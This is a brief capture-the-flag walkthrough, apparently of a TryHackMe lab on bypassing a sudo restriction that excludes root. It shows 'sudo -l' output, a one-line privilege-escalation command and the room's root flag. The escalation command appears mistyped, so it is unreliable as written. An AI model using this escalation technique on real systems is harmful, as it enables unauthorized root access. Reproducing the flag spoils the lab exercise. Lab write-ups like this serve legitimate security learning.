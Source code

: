 # Machine NAME : Sudo Security Bypass
# Machine IP : 10.10.153.192

***TASK 1: Deploy!***

***TASK 2: Secuiry Bypass***
```
1.What command are you allowed to run with sudo? 
/bin/bash 

2.What is the flag in /root/root.txt? 
- following this : 
    tryhackme@sudo-privesc:/bin$ sudo -l 
    Matching Defaults entries for tryhackme on sudo-privesc: 
    env_reset, mail_badpass, 

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/ 
    bin\:/sbin\:/bin\:/snap/bin 
    
    User tryhackme may run the following commands on sudo-privesc: 
    &nbsp;&nbsp;(ALL, !root) NOPASSWD: /bin/bash 
```

***Privilage Escalate Command this !*** <br>
```
&nbsp; sudo -u#1 /bin/bash

root flag : THM{l33t_s3cur1ty_bypass}
```